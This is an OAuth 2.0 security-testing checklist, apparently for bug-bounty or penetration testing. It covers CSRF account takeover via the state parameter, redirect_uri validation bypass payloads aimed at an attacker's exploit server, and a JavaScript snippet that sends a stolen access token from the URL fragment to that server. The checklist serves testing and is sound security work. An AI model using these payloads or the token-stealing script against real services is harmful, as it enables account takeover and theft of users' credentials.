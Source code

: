 # OAuth 2.0 Testing Checklist

Start by creating two accounts on your target of choice. Let's call one victim and one attacker. 

## Recon

1) Once you've located an OAuth flow on the app, connect one of your accounts and make sure the flow get's captured in the history. What kind of flow is it using? Code grant, or implicit grant? Something else?
2) If you find that it's using the Implicit Grant flow, try to identify the POST request which sends the credentials. Can you modify the email to your victim account and get connecting to their account instead of yours? If not, move on. 
3) Check to see if `/.well-known/oauth-authorization-server` or `/.well-known/openid-configuration` endpoints exist on the OAuth provider (not the content provider). This may give you key information in a JSON response body. Save anything interesting you may find and move on. 

## Testing for CSRF account takeover

1) Check to see if there's a state= parameter. If not, you may be able to initiate an OAuth CSRF. **I believe this is only applicable if you can sign in via email/password OR linking a social media account. You need a way to create an attacker account but still have an option to link a social media profile to it.**
	 - Create an account using your attacker's email and a password. Do not link a social media profile. Do the same for the victim account. 
	 - Locate where you can link a social media profile and initiate the flow, making sure Intercept is on in the Burp Proxy. 
	 - Once you arrive at the request containing all the OAuth parameters, send it to Repeater, drop the request, and stop capturing traffic in the proxy.
	 - Now make the captured request with your victim instead of the attacker who initiated the flow. 
	 - Try logging in again as the attacker and see if you have access to the victim's account. If so, bingo. **Keep in mind that for this to work you would need a victim account to also have created an account via password and not have linked a social media profile yet. The idea is getting your social media account associated with their password-based account.**
2) Even if the state= parameter exists, try the same steps as above, but remove the parameter. Perhaps if it's removed it will simply be ignored.Try a third time but the value of the state parameter by one char. Maybe it's not actually validating the state parameter. In either case you found a vulnerable instance.

	**If the only option to log in is via OAuth, the state parameter is less critical, but you may be able to trick a victim into logging in to your account. YMMV**

## Testing the redirect_uri

In this example, we will use http://wearelucid.io as the exploit server. 

1) Authenticate your victim email to the application via OAuth. This attack only works on victims who have valid OAuth credentials. Make sure you take note of all requests and responses, especially the one that sends to code to the OAuth provider. You'll need to manually make this request as the attacker in order to complete the exploit. 
2) As the victim try signing in via OAuth and intercepting the OAuth request containing the request_uri parameter. Send it to the Repeater, drop the request in the Proxy and stop intercepting.
3) Begin testing the validation of the request_uri parameter. Try these tests...
	- Changing the value of the request_uri parameter to an entirely different server that you control (Burp collaborator or a VPS) but with the same oauth directory
	- Try keeping the original redirect_uri, but appending a second one with your exploit server `redirect_uri=https://valid.server.com/oath-callback&redirect_uri=http://wearelucid.io/oauth-callback`
	- Try appending values onto the end of the valid redirect uri parameter. Typical SSRF bypasses are good to try...
		```
		redirect_uri=https://valid.server.com/oauth-callback&http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback#http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback?http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback;http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback@http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback.http://wearelucid.io
		```
		or combinations of the above as well
    - Try reversing the above combinations e.g
    ```
    redirect_uri=https://wearelucid.io/oauth-callback&@https://valid.server.com
    ```
    - Attempt to configure a subdomain on your attack server with the name of the valid server e.g.
	```
	redirect_uri=http://valid.server.com.wearelucid.io/oauth-callback
	```
    - On the off chance that any URI with localhost in it's name is allowed, try this as well
```
	redirect_uri=http://localhost.wearelucid.io/oauth-callback
```
4) In addition to the above tests, try changing the response_mode= parameter from query to fragment, or vice versa. You may run into an entirely different validation schema in different modes. For example if you try the response_mode=web_message value, a wider range of subdomains may be allowed in the redirect_uri parameter. If you're feeling ambitious, go through the above bypasses again to see if there is any difference. 

**To prove exploitation**
1) If any of those work, initate an OAuth flow as your victim, capture the request containing the redirect_uri parameter, send it to the repeater, drop the request and stop intercepting. Then, as your victim in a different browser, visit the maliciously crafted URL
2) View your access log on your exploit server to see the stolen code the victim sent to you. As the attacker, copy the code and manually make the request that sends the code to the OAuth provider. Observe that you've logged in as the victim. Good job. 


## Stealing tokens and codes

If none of those bypasses work then the URI validation seems to be solid. At this point you'll want to try directory traversal methods and open redirect chaining. 

1) Try the proper redirect_uri= value, but with a directory traversal to another directory on the same server.
```
	redirect_uri=https://valid.server.com/oauth-callback/../some/other/directory
```
2) If that doesn't give you an error it's time to start looking for an open redirect vulnerability, or a URL with a GET parameter that has a reflected XSS on the same host. In the case of an open redirect...
	-  If authorization code, you should be able to just redirect to your own server and in your logs you wll see the code=value
	- If implicit grant you actually have a little more work to do. You will need to host code that extracts the URL fragment because it won't show up in logs. As an example...
	```javascript
	if(!window.location.hash) { 
		document.location = 'https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email' 
	} else { 
		window.location = '/?hash='+document.location.hash.substr(1) 
	}
	```

**To prove exploitation** 

If it's authorization code flow....

1) As the victim in a different browser, manually visit the vulnerable OAuth request https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email. You should see the code come through in your exploit server log. 
2) As the attacker in a separate browser or tab, send the code you stole to the OAuth provider: https://oauth.server.com/oauth-callback?code=(stolen_code)

If it's implicit grant....

1) Host the above Javascript code on your exploit server (or whatever code you deem works in this situation). 
2) Manually visit the same vulnerable OAuth request as the victim. You should see the access token in the exploit server logs.
3) As the attacker, try to make a request that only the logged in victim should be able to see the response to. Add the stolen code in the `Authorization: Bearer (stolen_code)` header to observer gaining unauthorized access to sensitive functionality.